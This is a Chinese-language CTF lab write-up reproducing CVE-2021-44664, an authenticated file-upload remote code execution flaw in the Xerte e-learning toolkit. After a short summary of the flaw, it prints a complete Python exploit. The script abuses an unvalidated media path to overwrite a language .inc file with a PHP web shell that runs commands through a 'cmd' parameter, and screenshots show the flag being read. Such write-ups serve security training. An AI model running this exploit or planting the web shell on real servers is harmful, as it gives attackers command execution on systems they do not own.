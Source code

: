 ```yaml
---
title: CVE-2021-44664【RCE】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'RCE'
---
```


## 1. 漏洞介绍

[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2021-44664)

Xerte RCE

## 2. 漏洞分析

[Authenticated file upload to Remote Code Execution in Xerte – Rik Lutz](https://riklutz.nl/2021/11/03/authenticated-file-upload-to-remote-code-execution-in-xerte/)

POC：[Xerte 3.9 Remote Code Execution ≈ Packet Storm](https://packetstormsecurity.com/files/166182/Xerte-3.9-Remote-Code-Execution.html)

**简要总结：**

Xerte 支持上传文件，并会对上传文件检验，加上由于 .htaccess，用户的 media 文件夹无法执行php 文件，但其他文件夹可以。遗憾的是，由于上传扩展黑名单相当大，这是不允许的。以下是会被拦截的黑名单。

```bash
php,php5,pl,cgi,exe,vbs,pif,application,gadget,msi,msp,com,scr,hta,htaccess,ini,cpl,msc,jar,bat,cmd,vb,vbe,jsp,jse,ws,wsf,wsc,wsh,ps1,ps1xml,ps2,ps2xml,psc1,psc2,msh,msh1,msh2,mshxml,msh1xml,msh2xml,scf,lnk,inf,reg,docm,dotm,xlsm,xltm,xlam,pptm,potm,ppam,ppsm,sldm
```

![2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309171620999.png)

但在 Chrome 开发人员工具中检查此文件上传时，注意到存在媒体路径变量。 媒体路径定义文件的保存位置。 此路径未经验证，文件可以保存在服务器上的任何位置：

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309171620346.png)

研究人员进一步注意到了一个名为 \_load_language_file 的函数。 Xerte 有多种不同的语言版本，并且语言文件使用 .inc 扩展名。 这些.inc文件通常包含php代码，并且.inc不在上传黑名单中！ 可以用 php 代码覆盖现有的 .inc 文件并在加载页面时执行它。

## 3. 漏洞复现

下载漏洞 POC：[Xerte 3.9 Remote Code Execution ≈ Packet Storm](https://packetstormsecurity.com/files/166182/Xerte-3.9-Remote-Code-Execution.html)

xerte39-exec.py

```python
# Exploit Title: Xerte 3.9 - Remote Code Execution (RCE) (Authenticated)
# Date: 05/03/2021
# Exploit Author: Rik Lutz
# Vendor Homepage: https://xerte.org.uk
# Software Link: https://github.com/thexerteproject/xerteonlinetoolkits/archive/refs/heads/3.8.5-33.zip
# Version: up until version 3.9
# Tested on: Windows 10 XAMP 
# CVE : CVE-2021-44664

# This PoC assumes guest login is enabled and the en-GB langues files are used. 
# This PoC wil overwrite the existing langues file (.inc) for the englisch index page with a shell.
# Vulnerable url: https://<host>/website_code/php/import/fileupload.php
# The mediapath variable can be used to set the destination of the uploaded.
# Create new project from template -> visit "Properties" (! symbol) -> Media and Quota

import requests
import re

xerte_base_url = "http://eci-2zee4hjweuqo6njxe9p2.cloudeci1.ichunqiu.com"
php_session_id = "" # If guest is not enabled, and you have a session ID. Put it here.

with requests.Session() as session:
    # Get a PHP session ID
    if not php_session_id:
        session.get(xerte_base_url) 
    else:
        session.cookies.set("PHPSESSID", php_session_id)

     # Use a default template
    data = {
        'tutorialid': 'Nottingham',
        'templatename': 'Nottingham',
        'tutorialname': 'exploit',
        'folder_id': ''
    }

    # Create a new project in order to find the install path
    template_id = session.post(xerte_base_url + '/website_code/php/templates/new_template.php', data=data)

    # Find template ID
    data = {
        'template_id': re.findall('(\d+)', template_id.text)[0]
    }

    # Find the install path:
    install_path = session.post(xerte_base_url + '/website_code/php/properties/media_and_quota_template.php', data=data)
    install_path = re.findall('mediapath" value="(.+?)"', install_path.text)[0]

    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:94.0) Gecko/20100101 Firefox/94.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'nl,en-US;q=0.7,en;q=0.3',
        'Content-Type': 'multipart/form-data; boundary=---------------------------170331411929658976061651588978',
       }

    # index.inc file
    data = \
    '''-----------------------------170331411929658976061651588978
Content-Disposition: form-data; name="filenameuploaded"; filename="index.inc"
Content-Type: application/octet-stream

<?php
if(isset($_REQUEST[\'cmd\'])){ echo "<pre>"; $cmd = ($_REQUEST[\'cmd\']); system($cmd); echo "</pre>"; die; }
/**
 *
 * index.php english language file
 *
 * @author Patrick Lockley
 * @version 1.0
 * @copyright Pat Lockley
 * @package
 */

define("INDEX_USERNAME_AND_PASSWORD_EMPTY", "Please enter your username and password");

define("INDEX_USERNAME_EMPTY", "Please enter your username");

define("INDEX_PASSWORD_EMPTY", "Please enter your password");

define("INDEX_LDAP_MISSING", "PHP\'s LDAP library needs to be installed to use LDAP authentication. If you read the install guide other options are available");

define("INDEX_SITE_ADMIN", "Site admins should log on on the manangement page");

define("INDEX_LOGON_FAIL", "Sorry that password combination was not correct");

define("INDEX_LOGIN", "login area");

define("INDEX_USERNAME", "Username");

define("INDEX_PASSWORD", "Password");

define("INDEX_HELP_TITLE", "Getting Started");

define("INDEX_HELP_INTRODUCTION", "We\'ve produced a short introduction to the Toolkits website.");

define("INDEX_HELP_INTRO_LINK_TEXT","Show me!");

define("INDEX_NO_LDAP","PHP\'s LDAP library needs to be installed to use LDAP authentication. If you read the install guide other options are available");

define("INDEX_FOLDER_PROMPT","What would you like to call your folder?");

define("INDEX_WORKSPACE_TITLE","My Projects");

define("INDEX_CREATE","Project Templates");

define("INDEX_DETAILS","Project Details");

define("INDEX_SORT","Sort");

define("INDEX_SEARCH","Search");

define("INDEX_SORT_A","Alphabetical A-Z");

define("INDEX_SORT_Z","Alphabetical Z-A");

define("INDEX_SORT_NEW","Age (New to Old)");

define("INDEX_SORT_OLD","Age (Old to New)");

define("INDEX_LOG_OUT","Log out");

define("INDEX_LOGGED_IN_AS","Logged in as");

define("INDEX_BUTTON_LOGIN","Login");

define("INDEX_BUTTON_LOGOUT","Logout");

define("INDEX_BUTTON_PROPERTIES","Properties");

define("INDEX_BUTTON_EDIT","Edit");

define("INDEX_BUTTON_PREVIEW", "Preview");

define("INDEX_BUTTON_SORT", "Sort");

define("INDEX_BUTTON_NEWFOLDER", "New Folder");

define("INDEX_BUTTON_NEWFOLDER_CREATE", "Create");

define("INDEX_BUTTON_DELETE", "Delete");

define("INDEX_BUTTON_DUPLICATE", "Duplicate");

define("INDEX_BUTTON_PUBLISH", "Publish");

define("INDEX_BUTTON_CANCEL", "Cancel");

define("INDEX_BUTTON_SAVE", "Save");

define("INDEX_XAPI_DASHBOARD_FROM", "From:");

define("INDEX_XAPI_DASHBOARD_UNTIL", "Until:");

define("INDEX_XAPI_DASHBOARD_GROUP_SELECT", "Select group:");

define("INDEX_XAPI_DASHBOARD_GROUP_ALL", "All groups");

define("INDEX_XAPI_DASHBOARD_SHOW_NAMES", "Show names and/or email addresses");

define("INDEX_XAPI_DASHBOARD_CLOSE", "Close dashboard");

define("INDEX_XAPI_DASHBOARD_DISPLAY_OPTIONS", "Display options");

define("INDEX_XAPI_DASHBOARD_SHOW_HIDE_COLUMNS", "Show / hide columns");

define("INDEX_XAPI_DASHBOARD_QUESTION_OVERVIEW", "Interaction overview");

define("INDEX_XAPI_DASHBOARD_PRINT", "Print");
\r
\r
-----------------------------170331411929658976061651588978
Content-Disposition: form-data; name="mediapath"

''' \
    + install_path \
    + '''../../../languages/en-GB/
-----------------------------170331411929658976061651588978--\r
'''

    # Overwrite index.inc file
    response = session.post(xerte_base_url + '/website_code/php/import/fileupload.php', headers=headers, data=data)
    print('Installation path: ' + install_path)
    print(response.text)
    if "success" in response.text:
        print("Visit shell @: " + xerte_base_url + '/?cmd=whoami')
            


```

开启环境后用该脚本攻击

![3.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309171641593.png)

读取 flag

![3.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309171641594.png)
